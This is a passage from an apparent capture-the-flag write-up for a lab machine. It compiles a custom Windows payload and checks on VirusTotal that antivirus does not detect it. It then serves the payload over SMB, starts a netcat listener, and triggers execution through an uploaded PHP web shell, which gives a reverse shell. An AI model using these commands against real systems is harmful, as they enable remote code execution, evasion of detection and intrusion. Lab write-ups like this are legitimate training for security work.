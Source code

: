Compile the binary and upload to https://www.virustotal.com:

```bash
# above C code is saved in bubba.c
sudo apt install mingw-w64 wine
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```

![virustotal2](./buff/virustotal2.png)

Nice! This one says its not detected by Microsoft. Test it out as follows:

```bash
# host payload over SMB (v2 needed since host is using a modern Windows)
sudo impacket-smbserver -smb2support BUBBA .
# start listener
nc -nvlp 6969
# send command to target (using ' to not escape \)
curl -s -G http://10.10.10.198:8080/upload/bubba.php --data-urlencode 'c=\\10.10.14.17\BUBBA\bubba.exe'
```

And this returns a valid shell!

![user](./buff/user.png)
